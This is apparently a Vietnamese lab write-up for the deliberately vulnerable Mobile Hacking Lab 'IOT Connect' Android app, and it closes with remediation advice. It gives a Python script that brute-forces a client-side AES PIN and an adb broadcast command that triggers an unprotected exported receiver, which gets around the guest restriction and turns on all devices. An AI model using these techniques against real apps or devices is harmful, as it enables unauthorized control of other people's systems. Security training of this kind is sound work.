# Mobile Hacking Lab: IOT Connect
**Ref: [Mobile Hacking Lab: IOT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect)**

*Mục tiêu:* Mục tiêu của lab là khai thác lỗ hổng `Broadcast Receiver` trong ứng dụng IOT Connect để kích hoạt `master switch` và bật toàn bộ thiết bị theo cách mà người dùng guest không thể thực hiện qua giao diện bình thường.

## Phân tích tĩnh
Sử dụng công cụ `JADX GUI` để dịch ngược mã nguồn, sau đó chúng ta cùng kiểm tra mã nguồn.

Kiểm tra trong `AndroidManifest.xml` ta thấy xuất hiện các `receiver` được bật `export=true` rất đáng nghi ngờ


Tuy nhiên tại receiver `ProfileInstallReceiver` mặc dù có `export=true` nhưng vẫn yêu cầu có quyền hạn để gửi được broadcast, kiểm thử tìm kiếm xem quyền `DUMP` có được định nghĩa trong hệ thống không?

Kết quả tìm kiếm cho thấy, đây là một quyền không được định nghĩa hoặc code đã obfucaste làm không thể phát hiện được, tạm thời bỏ qua. Tiếp tục quan sát vào receiver `MasterReceiver` thấy không yêu cầu quyền mà vẫn có thể truy cập được. Thử tìm kiếm chuỗi `MasterReceiver` trong mã nguồn

Kiểm tra thấy hàm `onReceiver` của `MasterReceiver` được xử lý trong `MasterReceiver`. Từ mã nguồn này ta thấy receiver động này không yêu cầu permission và không kiểm tra caller gửi broadcast. Một điểm quan trọng nữa là receiver động được khởi tạo từ các activity thông thường
```java
CommunicationManager.INSTANCE.initialize(this);
```
Vì `LoginActivity` là activity export ra ngoài nên acttacker có thể mở activity này trước để cho receiver hoạt động 
```manifest
<activity
    android:name="com.mobilehackinglab.iotconnect.LoginActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

Phân tích luồng xử lý khi nhận action `MASTER_ON`

Trong `CommunicationManager.initialize(...)`, receiver động sẽ kiểm tra action `MASTER_ON`, lấy key từ intent, rồi xác thực bằng `Checker.check_key(key)`.
```java
public void onReceive(Context context2, Intent intent) {
    if (Intrinsics.areEqual(intent != null ? intent.getAction() : null, "MASTER_ON")) {
        int key = intent.getIntExtra("key", 0);
        if (context2 != null) {
            if (Checker.INSTANCE.check_key(key)) {
                CommunicationManager.INSTANCE.turnOnAllDevices(context2);
                Toast.makeText(context2, "All devices are turned on", 1).show();
            } else {
                Toast.makeText(context2, "Wrong PIN!!", 1).show();
            }
        }
    }
}

```
Trong hàm `turnOnAllDevices()`
```java
public final void turnOnAllDevices(Context context) {
    Log.d("TURN ON", "Turning all devices on");
    turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_ONE_STATE_KEY, true);
    turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_TWO_STATE_KEY, true);
    turnOnDevice(context, ACFragment.AC_PREFERENCES, ACFragment.AC_STATE_KEY, true);
    turnOnDevice(context, PlugFragment.PLUG_FRAGMENT_PREFERENCES, PlugFragment.PLUG_STATE_KEY, true);
    turnOnDevice(context, SpeakerFragment.SPEAKER_FRAGMENT_PREFERENCES, SpeakerFragment.SPEAKER_STATE_KEY, true);
    turnOnDevice(context, TVFragment.TV_FRAGMENT_PREFERENCES, TVFragment.TV_STATE_KEY, true);
    turnOnDevice(context, BulbsFragment.BULB_FRAGMENT_PREFERENCES, BulbsFragment.BULB_STATE_KEY, true);
}
```
Kiểm tra hai đoạn mã thì kết luận để kích hoạt được `turnOnAllDevices()` thì yêu cầu gửi được action `MASTER_ON` với key đúng và không có yêu cầu nào về quyền `guest` trong `onReceive()`.

Kiểm tra hàm xử lý mã Pin

Việc kiểm tra mã PIN được nằm hoàn toàn trong client side code
```java
private static final String algorithm = "AES";
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    try {
        return Intrinsics.areEqual(decrypt(ds, key), "master_on");
    } catch (BadPaddingException e) {
        return false;
    }
}
```
Key được sinh trực tiếp từ số PIN bằng cách chuyển PIN thành chuỗi byte rồi copy vào mảng 16 byte.
```java
private final SecretKeySpec generateKey(int staticKey) {
    byte[] keyBytes = new byte[16];
    byte[] staticKeyBytes = String.valueOf(staticKey).getBytes(Charsets.UTF_8);
    System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
    return new SecretKeySpec(keyBytes, algorithm);
}
```
Cipher được tạo bằng `AES/ECB/PKCS5Padding` và decrypt trực tiếp ciphertext hardcode.
```java
SecretKeySpec secretKey = generateKey(key);
Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
cipher.init(2, secretKey);
byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
return new String(decryptedBytes, Charsets.UTF_8);
```

Mã nguồn thu thập được `alg`, `cipher`, thuật toán mã hóa, cách sinh key từ PIN, plaintext mong đợi là `master_on`. Khi có đầy đủ thì ta thực hiện brute-force để giải mã tìm giá trị PIN đúng. 
```python
#!/usr/bin/env python3
import base64
import subprocess

DS = "OSnaALIWUkpOziVAMycaZQ=="
TARGET = b"master_on"


def generate_key_hex(pin: int) -> str:
    key = bytearray(16)
    pin_bytes = str(pin).encode("utf-8")
    key[: min(len(pin_bytes), 16)] = pin_bytes[:16]
    return key.hex()


def check_pin(pin: int) -> bool:
    result = subprocess.run(
        [
            "openssl",
            "enc",
            "-d",
            "-aes-128-ecb",
            "-K",
            generate_key_hex(pin),
        ],
        input=base64.b64decode(DS),
        stdout=subprocess.PIPE,
        stderr=subprocess.DEVNULL,
        check=False,
    )
    return result.returncode == 0 and result.stdout == TARGET


for pin in range(1_000_000):
    if check_pin(pin):
        print(f"[+] PIN found: {pin}")
        break
else:
    print("[-] PIN not found")

```
Thực hiện chạy mã nguồn và thu được kết quả
```commandline
[+] PIN found: 345
```
Vậy đã có mã PIN hợp lệ là `345`.

## Phân tích động
Trước tiên hãy tải và cài đặt mã nguồn vào trong thiết bị android của bạn trước
```commandline
adb install com.mobilehackinglab.iotconnect.apk
```
Mở app lên và trải nghiệm xem có gì tiếp theo. Thực hiện đăng kí và đăng nhập bình thường

Sau khi truy cập rồi vào `Set up`

Nhiệm vụ của chúng ta cần thực hiện broadcast receive để bật toàn bộ thiết bị lên, nhưng tại sao không bật thủ công luôn cho nhanh nhỉ :) *(Thử xem)*

Nhận được thông báo lỗi `Sorry, guest ...` đại khái là chúng ta không phải admin nên không được phép bật :). Được rồi truy cập ra tính năng  `Master Switch`, chúng ta thấy giao diện cho phép nhập mã pin và mã PIN vừa tìm được là `345` hãy thử xem

Chúng ta lại tiếp tục nhận được lỗi tương tự không được phép truy cập từ tài khoản guest. Truy cập lại phần xử lý logic phần này kiểm tra xem!

Đoạn cần tìm nằm trong mã nguồn `MasterSwitchActivity`
```java
// onCreate(..)
 button.setOnClickListener(new View.OnClickListener() { // from class: com.mobilehackinglab.iotconnect.MasterSwitchActivity$$ExternalSyntheticLambda0
    @Override // android.view.View.OnClickListener
    public final void onClick(View view) {
        MasterSwitchActivity.onCreate$lambda$0(user, this, view);
    }
});
//
public static final void onCreate$lambda$0(User user, MasterSwitchActivity this$0, View it) {
        Intrinsics.checkNotNullParameter(user, "$user");
        Intrinsics.checkNotNullParameter(this$0, "this$0");
        if (user.isGuest() != 1) {
            EditText editText = this$0.pin_edt;
            if (editText == null) {
                Intrinsics.throwUninitializedPropertyAccessException("pin_edt");
                editText = null;
            }
            String pinText = StringsKt.trim((CharSequence) editText.getText().toString()).toString();
            if (pinText.length() > 0) {
                int pin = Integer.parseInt(pinText);
                Intent intent = new Intent("MASTER_ON");
                intent.putExtra("key", pin);
                LocalBroadcastManager.getInstance(this$0).sendBroadcast(intent);
                return;
            }
            Toast.makeText(this$0, "Please enter a PIN", 0).show();
            return;
        }
        Toast.makeText(this$0, "Sorry, the masterswitch can't be controlled by guests", 0).show();
    }
```
Từ đó chúng ta suy ra rằng hệ thống chỉ giới hạn `Guest` chỉ nằm ở UI, chỉ kiểm tra bằng `user.isGuest() != 1` ở UI.
Vậy từ điểm nhận broadcast được `export=true` thì ta có thể sử dụng `adb am` để thực hiện

## PoC Exploit

- Từ phân tích tĩnh ta đã thu thập được mã PIN là: 345
- Action để kích hoạt "MASTER_ON" và extra là "key"

Chỉ cần gửi action `MASTER_ON` kèm `key=345` là sẽ đi thẳng vào `onReceive()` và kích hoạt `turnOnAllDevices(...)`.
```commandline
adb shell am broadcast -a MASTER_ON --ei key 345
```
Kiểm tra kết quả nhận được thông báo

Đăng nhập và kiểm tra các thiết bị

Các thiết bị mà trước đó `guest` không bật được thì giờ đây đã bật được toàn bộ. Exploit thành công

## Kết luận
1. Tác động

   - Lỗ hổng này cho phép attacker bỏ qua hạn chế dành cho guest và điều khiển master switch, dẫn tới việc bật toàn bộ thiết bị được quản lý bởi ứng dụng.
   - Đây là lỗi kiểm soát truy cập do tin tưởng dữ liệu broadcast từ bên ngoài trong khi chỉ áp dụng kiểm tra phân quyền ở UI.

2. Nguyên nhân gốc rễ
   - Nguyên nhân gốc rễ gồm hai phần:
     - Broadcast path cho action `MASTER_ON` không được bảo vệ bằng permission hoặc xác thực caller.
     - Cơ chế xác thực PIN nằm hoàn toàn ở client-side và có thể đảo ngược hoặc brute-force từ mã nguồn.

3. Khuyến nghị khắc phục
   - Không export receiver xử lý `MASTER_ON` nếu chỉ dùng nội bộ.
   - Nếu buộc phải export, phải gắn permission mức signature hoặc kiểm tra caller một cách phù hợp.
   - Không dùng `registerReceiver(...)` toàn cục cho luồng điều khiển nhạy cảm mà không ràng buộc `permission`.
   - Không đặt logic xác thực PIN hoàn toàn ở client-side.
   - Di chuyển kiểm tra quyền người dùng khỏi UI và đặt tại điểm xử lý thực tế của hành động nhạy cảm.

*Ứng dụng IOT Connect chứa lỗ hổng Broadcast Receiver dẫn tới bypass hạn chế guest. Bằng cách phân tích mã nguồn, suy ra PIN 345, và gửi broadcast `MASTER_ON` trực tiếp tới luồng xử lý không được bảo vệ, attacker có thể bật toàn bộ thiết bị mà không cần đi qua luồng UI hợp lệ dành cho người dùng không phải guest.*
